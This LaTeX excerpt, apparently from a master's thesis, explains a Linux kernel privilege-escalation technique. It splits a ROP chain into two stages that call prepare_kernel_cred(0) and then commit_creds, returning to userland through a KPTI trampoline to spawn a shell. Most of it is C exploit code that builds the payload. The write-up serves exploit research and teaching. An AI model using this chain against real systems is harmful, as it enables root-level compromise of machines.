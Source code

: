 \documentclass{masterthesis}
\begin{document}
\subsection{Calling commit_creds(prepare_kernel_cred(0))}
Since the number of gadgets is limited, it was impossible to find a ROP chain calling \lstinline{commit_creds(prepare_kernel_cred(0))}.
The only solution is to divide the chain into two parts:
\begin{itemize}
  \item Call \lstinline{prepare_kernel_cred (0)} function saving the return value in \emph{rax}.
   \item Call \lstinline{commit_creds ()} function using the value we have in \emph{rax}.
\end{itemize}
This way we bypass a fairly difficult part of the ROP chain, move the value received from \lstinline{prepare_kernel_cred(0)} from \emph{rax} to \emph{rdi} and pass it to the \lstinline{commit_creds()} function.
\begin{lstlisting}
void stage_3(void){
    ...
    As stage 1
    ...
    payload[off++] = pop_rdi_rbp_ret; // return address
    payload[off++] = 0; // rdi <- 0
    payload[off++] = 0; // dummy rbp
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)after_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    ....
}

void after_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    returned_creds_struct = tmp_store;
    printf("    --> returned_creds_struct: %lx\n", returned_creds_struct);
    stage_4();
}

void stage_4(void){
    ...
    As stage 3
    ...
    payload[off++] = returned_creds_struct; // rdi <- returned_creds_struct
    payload[off++] = 0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(returned_creds_struct)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_shell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call commit_creds(returned_creds_struct)");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}

\end{lstlisting} 


\end{document}
